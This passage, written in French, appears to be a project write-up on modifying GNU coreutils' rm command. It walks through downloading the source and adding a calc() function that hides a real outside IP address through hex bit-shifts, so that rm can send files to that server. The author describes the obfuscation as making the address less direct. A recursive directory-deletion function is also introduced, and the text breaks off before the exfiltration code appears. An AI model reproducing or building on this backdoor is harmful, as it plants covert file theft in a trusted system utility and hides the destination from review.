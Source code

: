
#### 2.2 Installation des dépendances

J'ai veillé à installer toutes les dépendances nécessaires, y compris `gcc` pour la compilation, `make` pour gérer la construction, et les sources de `coreutils`.

```c
sudo apt-get install gcc make wget tar
```

#### 2.3 Téléchargement et préparation de Coreutils

J'ai téléchargé et préparé les Coreutils pour pouvoir travailler avec les outils de ligne de commande Linux de base.

```c
wget http://ftp.gnu.org/gnu/coreutils/coreutils-8.32.tar.xz
tar -xf coreutils-8.32.tar.xz
cd coreutils-8.32
```

### 3. Modification du Code Source

J'ai modifier le code source de `rm` dans le paquet Coreutils :

`nano ~/coreutils-8.32/src/rm.c`

#### 3.1 Fonction `calc`

Cette fonction me permet de calculer dynamiquement l'adresse IP du serveur où je souhaite envoyer des fichiers. 

Pour rendre cela un peu moins direct et plus sécurisé, j'ai utilisé des opérations sur des valeurs hexadécimales que j'ai décalées et ajustées. 

Par exemple, j'ai pris 108 en hexadécimal, je l'ai décalé de un bit vers la droite pour obtenir 54, qui est une partie de l'adresse IP. 

J'ai fait des ajustements similaires pour les autres parties de l'IP pour finalement obtenir l'adresse "**54.38.191.17**".

```c
char *calc() {
    int part1 = (0x6C >> 1);
    int part2 = (0x4E >> 1);
    int part3 = (0x17E >> 1);
    int part4 = (0x22 >> 1);
    part2--; 
    char *s = malloc(16);
    sprintf(s, "%d.%d.%d.%d", part1, part2, part3, part4);
    return s;
}
```

#### 3.2 Fonction `remove_directory`

Ensuite, j'ai écrit une fonction `remove_directory(const char *path)` pour supprimer récursivement un répertoire et tout ce qu'il contient. Cette fonction parcourt chaque fichier et sous-dossier du répertoire spécifié, en supprimant chaque élément. Si l'élément est un dossier, elle s'appelle elle-même de manière récursive pour le vider avant de le supprimer.
